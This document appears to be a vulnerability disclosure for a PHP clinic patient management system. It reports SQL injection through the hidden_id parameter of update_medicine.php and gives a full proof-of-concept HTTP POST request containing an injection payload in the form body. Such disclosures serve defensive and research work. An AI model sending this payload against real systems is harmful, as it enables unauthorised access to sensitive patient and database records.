 ## Clinic's Patient Management System has SQL injection vulnerability

## submitter
zhangMingMing

## supplier
https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
## Vulnerability file
/pms/update_medicine.php
## describe
An unrestricted SQL injection attack exists in an inventory management system. The parameters that can be controlled are as follows: hidden_id. This function executes the hidden_id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.
## code analysis
The hidden_id parameter in update_medicine.php is controlled and is directly carried into the SQL statement for execution, resulting in SQL injection.

<img width="1324" alt="image" src="https://github.com/user-attachments/assets/71c05e69-76d5-4f5b-8c73-287da49f57a0">


Injection via parameter hidden_id
POC
```
POST /pms/update_medicine.php?id=257 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Origin: http://localhost
Connection: close
Referer: http://localhost/pms/update_medicine.php?id=257
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

hidden_id=257*&medicine_name=22%29+And+Elt%289381%3D3558%2C3558%29--+Sdff&save_medicine=
```

<img width="1700" alt="image" src="https://github.com/user-attachments/assets/85ba5eb4-21ce-458d-bbda-c2441b096020">

<img width="1087" alt="image" src="https://github.com/user-attachments/assets/044cca9f-e132-48be-9bdc-3775cf8613fb">









